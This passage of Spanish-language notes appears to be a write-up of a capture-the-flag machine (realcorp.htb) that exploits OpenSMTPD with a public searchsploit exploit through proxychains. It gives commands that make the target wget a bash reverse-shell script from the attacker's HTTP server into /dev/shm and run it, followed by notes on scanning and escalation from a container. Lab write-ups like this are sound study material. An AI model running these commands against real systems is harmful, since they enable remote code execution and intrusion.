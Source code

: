 <span style="color:#07b4f2">Buscando</span> <span style="color:#ff2dc0">vulnerabilidades</span> por <span style="color:#ff2dc0">OpenSMTPD</span>.
<span style="color:#ff2dc0">searchsploit</span> <span style="color:#ecacb6">linux/remote/47984.py</span>, nos pide parámetros, pero hay que <span style="color:#07b4f2">pasar por</span> <span style="color:#ff2dc0">proxychains</span>.
También, juega con <span style="color:#ff2dc0">RCPT TO</span> y se <span style="color:#07b4f2">lo manda a</span> <span style="color:#ecacb6">root</span>, pero <span style="color:#07b4f2">puede</span> que <span style="color:#07b4f2">no exista</span>, pero haciendo memoria, <span style="color:#07b4f2">tenemos</span> un <span style="color:#ecacb6">usuario</span> <span style="color:#07b4f2">válido</span>, <span style="color:#ecacb6">j.nakazawa@realcorp.htb</span>
Probemos con él.
<span style="color:#88c425">proxychains python3 47984.py 10.241.251.113 25 "wget 10.10.14.15"</span> :    <span style="color:#07b4f2">nos llega</span> el <span style="color:#ff2dc0">GET</span> (<span style="color:#379075">raro porque si ponemos http://... no llega</span>).

<span style="color:#bef202">Ganar acceso</span>.
+<span style="color:#07b4f2">Creo</span> un <span style="color:#ecacb6">index.html</span> con una <span style="color:#ff2dc0">reverse shell</span> en <span style="color:#ff2dc0">bash</span>.
+<span style="color:#ff2dc0">Monto</span> un <span style="color:#ff2dc0">server HTTP</span>.
+Hago
<span style="color:#88c425">proxychains python3 47984.py 10.241.251.113 25 "wget 10.10.14.15" -O /dev/shm/rev</span>
+Hago
<span style="color:#88c425">proxychains python3 47984.py 10.241.251.113 25 "bash /dev/shm/rev"</span>
Y pa deeeeentro.


---

>[!Warning] No olvidemos UDP
>Si no vemos cosas de las que nos podamos aprovechar en los puertos por TCP, vamos a UDP.
>
>No vemos mucho por UDP tampoco.


>[!Tip] Escaner en Bash
>Como va algo lento con NMAP, podemos automatizarlo en bash.
>Con un timeout 1, e independizando procesos.


## Escalada

Estamos en un contenedor.
<span style="color:#ff2dc0">Host</span>: <span style="color:#ecacb6">10.241.251.113</span>
<span style="color:#ff2dc0">Usuario</span>: <span style="color:#ecacb6">root</span>

La máquina real podría ser <span style="color:#ecacb6">10.241.251.1</span>, y recordando tiene puertos abiertos.
Hacemos un <span style="color:#ff2dc0">host discovery</span> pero <span style="color:#07b4f2">encontramos</span> lo <span style="color:#07b4f2">mismo</span> de <span style="color:#07b4f2">antes</span>
<span style="color:#ecacb6">10.241.251.1</span> <span style="color:#07b4f2">con</span> los <span style="color:#ff669c">puertos 22</span>, <span style="color:#ff669c">53</span>, <span style="color:#ff669c">88</span>
<span style="color:#ecacb6">10.241.251.113</span> <span style="color:#07b4f2">con</span> el <span style="color:#ff669c">25</span>
